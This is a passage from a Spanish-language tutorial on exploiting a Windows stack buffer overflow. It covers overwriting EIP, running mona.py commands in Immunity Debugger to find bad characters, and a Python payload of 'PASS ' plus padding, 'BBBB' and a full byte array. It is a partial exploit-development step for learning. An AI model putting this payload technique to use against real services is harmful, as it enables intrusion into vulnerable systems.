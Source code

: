 Agregando 4654 "A" las cuales sobrescribren y pausan el programa, los siguientes 4 caracteres "B" pertenecerían al registro EIP y posteriormente 200 caracteres "C" para ver como se sobrescribe (En este caso, el registro ESP) 

De esta manera deberíamos generar un  **byte array**, es decir todas las combinaciones posibles de bytes para posteriormente detectar los **badchars**. 

Esto lo haríamos con el **immunity debugger** ingresando *!mona* para abrir el script en python y posteriormente ingresar los comandos: 

- ### **!mona**
- ### **!mona config -set workingfolder C:\\Users\\{user}\\Desktop\\{new_dir_name}** (Esto para crear un directorio de trabajo en nuestro escritorio)
- ### **!mona bytearray -cpb "\\0x"** (Para crear un byte array excluyendo el null byte en el directorio de trabajo previamente creado)

La intención de esto, es que con todo el **byte array** donde en el script previamente ingresamos 200 caracteres "C" para ver que caracteres no salen representados en el stack para a la hora de crear el shellcode evitar los **badchars**. 

Una vez enviado el **byte array**:

```python
# code .....
before_eip = b"A"*offset
eip = b"BBBB"
after_eip = (b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

payload = b'PASS ' + before_eip + eip + after_eip
# ..... code
```

Veremos en el **immunity debugger** donde se corrompe el payload, para que de esta manera podamos empezar a detectar los **badchars**, si bien podemos hacerlo manual viendo que caracteres corrompen el programa, lo podemos hacer con **mona.py**: 

- ### **!mona compare -a 0x{ESP_value} -f C:\\Users\\{user}\\Desktop\\{new_dir_name}\\bytearray.bin**

Esto lo que hará sera crear un archivo **compare** en la misma carpeta de trabajo indicada con los *badchars*.  De esta manera podríamos ir creando el **byte array** excluyendo con mona los bytes que el programa no interpreta como **!mona bytearray -cpb "\\x00\\x{bad_char}"**.
